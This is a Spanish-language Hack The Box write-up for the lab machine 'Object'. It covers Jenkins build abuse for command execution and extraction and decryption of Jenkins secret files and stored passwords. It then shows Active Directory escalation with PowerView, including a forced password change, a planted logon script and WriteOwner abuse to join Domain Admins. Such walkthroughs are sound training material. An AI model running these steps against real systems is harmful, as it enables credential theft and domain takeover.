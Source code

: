 ```yaml
---
title: Object
date: 2022-07-31 13:25:30 +/-TTTT
categories: [HTB MACHINES, Windows]
tags: []     # TAG names should always be lowercase
---
```


```shell
# Nmap 7.92 scan initiated Tue Oct 18 22:28:02 2022 as: nmap -sCV -p80,8080 -oN targeted 10.10.11.132
Nmap scan report for 10.10.11.132
Host is up (0.087s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Microsoft IIS httpd 10.0
|_http-title: Mega Engines
|_http-server-header: Microsoft-IIS/10.0
8080/tcp open  http    Jetty 9.4.43.v20210629
|_http-server-header: Jetty(9.4.43.v20210629)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 18 22:28:20 2022 -- 1 IP address (1 host up) scanned in 18.60 seconds

```
En esta máquina nos encotramos con Jenkins, procedemos a registrarnos y logearnos.

![imagen1](/assets/images/Object/Object.png)

Dentro nos encontramos que podemos inicializar builds donde podemos ejecutar comandos. Para hacer el trigger del build podemos hacerlo por tiempo o haciendo una petición hacia una url 
que nos indican en el panel de configuración.

![imagen1](/assets/images/Object/Object2.png)

![imagen1](/assets/images/Object/Object3.png)

Para la petición por curl tenemos que conseguir una api token desde la configuración de nuestra cuenta y asignarle un token en la configuración de la build

```shell
curl -s -X GET http://guero:11d78af7a8dd04d1642b7809e5477f0417@10.10.11.132:8080/job/guero/build?token=guerotoken
```
En este punto no hay manera de entablarnos una shell porque el firewall está denegando todo el tráfico saliente, podemos usar el comando siguiente para saber que conexiones están habilitadas o 
bloqueadas

```cmd
powershell -c Get-NetFirewallRule -Direction outbound -Action Allow -Enabled True

powershell -c Get-NetFirewallRule -Direction outbound -Action Allow -Enabled True 
```

![imagen1](/assets/images/Object/Object4.png)

Aquí podemos ver que está disponible ciertos comandos, aunque esto no nos va a servir en esta máquina, si es de mucha utilidad para saber que conexiones podemos establecer igualmente con este
comando podemos ver que ports están bloqueados por el firewall

```powershell
Get-NetFirewallRule -DisplayGroup 'Remote Desktop' |
Format-Table -Property Name,
DisplayName,
DisplayGroup,
@{Name='Protocol';Expression={($PSItem | Get-NetFirewallPortFilter).Protocol}},
@{Name='LocalPort';Expression={($PSItem | Get-NetFirewallPortFilter).LocalPort}},
@{Name='RemotePort';Expression={($PSItem | Get-NetFirewallPortFilter).RemotePort}},
@{Name='RemoteAddress';Expression={($PSItem | Get-NetFirewallAddressFilter).RemoteAddress}},
Enabled,
Profile,
Direction,
Action
```
Al momento de enumerar archivos encontramos que existe dentro de .jenkins la carpeta `users` y dentro de él los usuarios y su archivos config.xml, donde haciéndole un cat encontramos una password.

![imagen5](/assets/images/Object/Object5.png)

Esta contraseña no nos va a servir a menos que podamos crackearlo, para eso usamos la herramienta `jenkins-credentials-decryptor`

```shell
curl -L \
  "https://github.com/hoto/jenkins-credentials-decryptor/releases/download/1.2.0/jenkins-credentials-decryptor_1.2.0_$(uname -s)_$(uname -m)" \
   -o jenkins-credentials-decryptor

chmod +x jenkins-credentials-decryptor

./jenkins-credentials-decryptor
Please provide all required flags.

Usage:

  jenkins-credentials-decryptor \
    -m master.key \
    -s hudson.util.Secret \
    -c credentials.xml \
    -o json

```

Para eso necesitamos archivos que se encuentran dentro de la máquina dentro la de carpeta de secrets en .jenkins

![imagen6](/assets/images/Object/Object6.png)

En el archivo hudson.util.Secret al hacerle un cat nos encontramos con un archivo binario por lo que lo convertimos a base64 para poder copiarlo.

```powershell
powershell -c [Convert]::ToBase64String((cat ../../secrets/hudson.util.Secret -Encoding byte)) 
```
Con esto ya tenemos los tres archivos necesario para crackear la contraseña y entrar a la máquina víctima.

```shell
python3 jenkins_offline_decrypt.py master.key hudson.util.Secret config.xml
c1cdfun_d2434
```
Dentro de la máquina utilizamos `SharpHound.ps1` para enumerar los grupos y privilegios el oliver y vemos que tenemos `ForceChangePassword` sobre el usuario Smith.

![imagen7](/assets/images/Object/Object7.png)

```powershell
*Evil-WinRM* PS C:\Users\oliver\Documents> Import-Module ./PowerView.ps1
*Evil-WinRM* PS C:\Users\oliver\Documents> Set-DomainUserPassword -Identity smith -AccountPassword $secpassword
```
Entrando como Smith vemos que tenemos el `GenericWrite` sobre María, esto nos ayuda a modificaro los atributos de este usuario, podemos intentar hacer un kerberoasting attack o crear un 
loggon script de maría, suponiendo que se está logeando para que nos ejecute un script en powershell.

```powershell
*Evil-WinRM* PS C:\Programdata\bh> Set-DomainObject -Identity maria -SET @{scriptpath='C:\Programdata\bh\test.ps1'}
*Evil-WinRM* PS C:\Programdata\bh> echo "dir C:\Users\maria\Desktop > C:\Programdata\bh\output.txt" > test.ps1

*Evil-WinRM* PS C:\Programdata\bh> type output.txt


    Directory: C:\Users\maria\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/26/2021   8:13 AM           6144 Engines.xls


```
Nos encontramos un archivo xls, con copy lo copiamos a nuestra carpeta y encontramos unas contraseñas almacenadas.

![imagen8](/assets/images/Object/Object8.png)

Una vez dentro con el usuario maria, vemos que tiene `WriteOwner` sobre el grupo `Domain Admins` que permite modificar el propietario del grupo.

```powershell
Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity maria
*Evil-WinRM* PS C:\Programdata\bh> Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity maria
*Evil-WinRM* PS C:\Programdata\bh> Add-DomainObjectAcl -PrincipalIdentity maria -TargetIdentity "Domain Admins" -Rights All
*Evil-WinRM* PS C:\Programdata\bh> net groups "Domain Admins" maria /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Programdata\bh> net user maria
User name                    maria
Full Name                    maria garcia
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/21/2021 9:16:32 PM
Password expires             Never
Password changeable          10/22/2021 9:16:32 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 C:\Programdata\bh\test.ps1
User profile
Home directory
Last logon                   10/18/2022 8:26:41 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Admins        *Domain Users
The command completed successfully.
```
Y con esto ya tendremos privilegios elevados.
